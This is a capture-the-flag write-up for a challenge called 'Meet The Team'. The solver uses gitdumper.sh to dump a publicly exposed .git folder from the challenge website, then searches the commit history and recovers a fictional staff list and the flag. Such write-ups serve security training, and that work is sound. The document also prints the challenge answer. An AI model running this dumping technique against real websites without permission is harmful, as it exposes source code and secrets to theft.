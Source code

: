 # Meet The Team

Tags: _git_ _gittools_ _gitdumper_

## Challenge

>Author: @JohnHammond#6971
>
>Recover the list of employees working at CONSTELLATIONS.
>
>With the flag of this challenge, you should find new information that will help with future challenges.
>
>You should find the flag for this challenge ON THIS constellations.page website. You will not find it on GitHub.
>
>HINT: "Can we please stop sharing our version control software out on our website?"
>
>HINT AGAIN: you are looking for a publicly accessible version control software folder published on the constellations.page website itself
>
>After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
>

## Solving

https://constellations.page/.git
![git](git.png)

https://constellations.page/config
![config](config.png)



```
$ gitdumper.sh http://constellations.page/.git/ git
$ cd git

$ git log |grep commit |cut -d " " -f2 |xargs git show


-                               <li><h4><b>Orion Morra</b> &mdash; Support</h4></li>
-                               
-                               <li><h4><b>Lyra Patte</b> &mdash; Marketing</h4></li>
-                               
-                               <li><h4><b>Leo Rison</b> &mdash; Development</h4></li>
-                               
-                               <li><h4><b>Gemini Coley</b> &mdash; Operations</h4></li>
-
-                               <li><h4><b>Hercules Scoxland</b> &mdash; Sales</h4></li>
-
-                               <li><h4><b>Vela Leray</b> &mdash; Management</h4></li>
-
-                               <li><h4><b>Pavo Welly</b> &mdash; HR</h4></li>
-
-                               <li><h4><b>Gus Rodry</b> &mdash; Accounting</h4></li>
-
-                               <!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->
```
